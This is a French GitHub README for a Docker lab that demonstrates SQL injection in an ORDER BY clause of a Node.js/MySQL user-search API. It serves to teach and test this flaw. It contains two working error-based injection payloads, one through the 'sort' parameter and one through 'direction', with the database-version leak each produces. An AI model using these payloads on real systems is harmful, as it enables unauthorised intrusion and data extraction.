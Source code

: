 # PoC - Exploitation des injections SQL dans les clauses ORDER BY

## Installation

```
$ docker-compose build
$ docker-compose up -d
```

![image](https://github.com/user-attachments/assets/39419bea-36df-4182-a049-6e86d2c2a09a)

## Description

L'application, développée en NodeJS avec l'extension mysql, permet de rechercher des utilisateurs présents dans une base de données MySQL (Mariadb). Toutefois, les paramètres "sort" et "direction" utilisés au sein de la clause `ORDER BY` lors de l'appel à l'API sont sensibles aux injections SQL.

## Exploitation

Récupération de la version du système de base de données via le paramètre "sort" :

```sql
/users?search=&sort=username OR (SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&direction=ASC&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

Récupération de la version du système de base de données via le paramètre "direction" :

```sql
/users?search=&sort=username&direction=ASC,(SELECT 1 FROM(SELECT COUNT(*),CONCAT(CHAR(126),CAST(VERSION() AS NCHAR),CHAR(126),0x3a,floor(rand(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)&page=1&maxPerPage=5
```

```
Error: SQLSTATE[23000]: Integrity constraint violation: 1062 Duplicate entry '~10.11.6-MariaDB-1:10.11.6+maria~ubu2204~:1' for key 'group_key'
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/main/exploitation-des-injections-sql-au-sein-de-la-clause-order-by/Node.js-et-MySQL/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.